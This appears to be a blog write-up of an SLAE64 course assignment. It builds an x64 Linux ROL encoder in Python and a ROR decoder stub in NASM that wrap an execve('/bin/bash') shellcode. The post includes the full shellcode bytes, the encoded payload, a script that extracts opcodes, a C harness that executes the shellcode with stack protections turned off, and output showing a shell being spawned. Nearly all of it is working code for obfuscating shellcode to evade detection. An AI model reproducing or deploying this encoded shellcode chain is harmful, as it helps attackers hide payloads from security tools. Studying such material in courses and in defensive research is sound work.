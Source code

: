 ```yaml
---
title: SLAE64 Assignment 4 - ROL Encoder 
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the fourth assignment of the SLAE64 I created a Rotate Left (ROL) Encoder and a Rotate Right (ROR) decoder.   
The ROL encoder is a python program that rotates every byte of the payload to the left by 1 bit. The companion ROR decoder rotates every byte of the payload to the right by 1 bit, and then passes execution to the decoded payload. The example payload is an execve shellcode that spawns a bash shell.

# The Python Rotate Left (ROL) Encoder 

```python
#!/usr/bin/python
shellcode  = "\x48\x31\xf6"     # xor rsi, rsi
shellcode += "\x48\xf7\xe6"     # mul rsi          ; rdx&rax= 0x0
shellcode += "\x48\x31\xff"     # xor rdi, rdi
shellcode += "\x57"             # push rdi
shellcode += "\x48\x83\xc2\x68" # add rdx, 0x68
shellcode += "\x52"             # push rdx
shellcode += "\x48\xba\x2f\x62\x69\x6e\x2f\x62\x61\x73" # movabs rdx, 0x7361622f6e69622f
shellcode += "\x52"             # push rdx
shellcode += "\x48\x31\xd2"     # xor rdx, rdx
shellcode += "\x48\x89\xe7"     # mov rdi, rsp ; rdi = Pointer -> "/bin/bash"0x00
shellcode += "\xb0\x3b"         # mov al, 0x3b ; execve syscall number
shellcode += "\x0f\x05";        # syscall  ; call execve("/bin/bash", NULL, NULL)

encoded = ""
for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded += '0x'
        encoded += '%02x,' %x  # Add the rotated left hex to string
    else:
        encoded += '0x'        # No leftmost bit, just rotate
        encoded += '%02x,' %(x << 1)
print encoded+"0xaa"
print 'Len: %d' % len(bytearray(shellcode))
```  

+ The byte 0xaa is added to the end of the payload. This is how our ROR decoder will know it has reached the end of the payload.

## Encoding the Payload
```bash
root# python rotateLeftEncoder.py
0x90,0x62,0xed,0x90,0xef,0xcd,0x90,0x62,0xff,0xae,0x90,0x07,\
0x85,0xd0,0xa4,0x90,0x75,0x5e,0xc4,0xd2,0xdc,0x5e,0xc4,0xc2,\
0xe6,0xa4,0x90,0x62,0xa5,0x90,0x13,0xcf,0x61,0x76,0x1e,0x0a,0xaa
Len: 36
```

# The Rotate Right (ROR) Decoder

```c
; Filename: rotateRightDecoder.nasm
; Author:   boku
global _start
section .text
_start:
  jmp short call_decoder ; 1. jump to shellcode string
decoder:
  pop rsi                ; 3. RSI=&String 
decode:
  ror byte [rsi], 1      ; 4. decode byte with bitwise rotate right
  cmp byte [rsi], 0x55   ; 5. Last byte? ror 0xaa, 1 = 0x55
  je Shellcode           ;    - Yes? jump to payload and execute
  inc rsi                ; 6. No? Move forward 1 byte
  jmp short decode       ; 7. Lets decode the next byte
call_decoder:
  call decoder           ; 2. [RSP]=&String
  Shellcode: db 0x90,0x62,0xed,0x90,0xef,0xcd,0x90,0x62,0xff,0xae,\
                0x90,0x07,0x85,0xd0,0xa4,0x90,0x75,0x5e,0xc4,0xd2,\
                0xdc,0x5e,0xc4,0xc2,0xe6,0xa4,0x90,0x62,0xa5,0x90,\
                0x13,0xcf,0x61,0x76,0x1e,0x0a,0xaa
```

## Getting the ROR Decoder Shellcode

```bash
root# cat getshellcode.sh
#!/bin/bash
asmFile=$1
noExt=$(echo $asmFile | sed 's/\..*$//g')
objFile=$noExt".o"
nasm -f elf64 $asmFile -o $objFile
for i in $(objdump -D $objFile | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo ''

root# ./getshellcode.sh rotateRightDecoder.asm
\xeb\x0d\x5e\xd0\x0e\x80\x3e\x55\x74\x0a\x48\xff
\xc6\xeb\xf4\xe8\xee\xff\xff\xff\x90\x62\xed\x90
\xef\xcd\x90\x62\xff\xae\x90\x07\x85\xd0\xa4\x90
\x75\x5e\xc4\xd2\xdc\x5e\xc4\xc2\xe6\xa4\x90\x62
\xa5\x90\x13\xcf\x61\x76\x1e\x0a\xaa
```

# Testing the ROR Decoder

```c
// Shellcode Title:  Linux/x64 - ROL Encoded Execve Shellcode (57 bytes)
// Shellcode Author: Bobby Cooke
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\xeb\x0d"              // jmp short call_decoder
// decoder:
"\x5e"                  // pop rsi = &String
// decode:
"\xd0\x0e"              // ror byte [rsi], 1
"\x80\x3e\x55"          // cmp byte [rsi], 0x55 - last byte? ror 0xaa, 1 = 0x55
"\x74\x0a"              // je Shellcode - End? Jump to shellcode!
"\x48\xff\xc6"          // inc rsi - Not end? move 2 next byte
"\xeb\xf4"              // jmp short decode - loop 2 decode next byte
// call_decoder:
"\xe8\xee\xff\xff\xff"  // call decoder // go 2 decode loop
// Execve(/bin/bash) ROL Encoded Shellcode
"\x90\x62\xed\x90\xef\xcd\x90\x62\xff\xae\x90\x07\x85"
"\xd0\xa4\x90\x75\x5e\xc4\xd2\xdc\x5e\xc4\xc2\xe6\xa4"
"\x90\x62\xa5\x90\x13\xcf\x61\x76\x1e\x0a\xaa";

int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}

```

## Final Test

```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
 3067 pts/3    Ss     0:00 /bin/bash
root# ./shellcode
Shellcode Length:  57
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
 3501 pts/3    S      0:00 [bash]
```
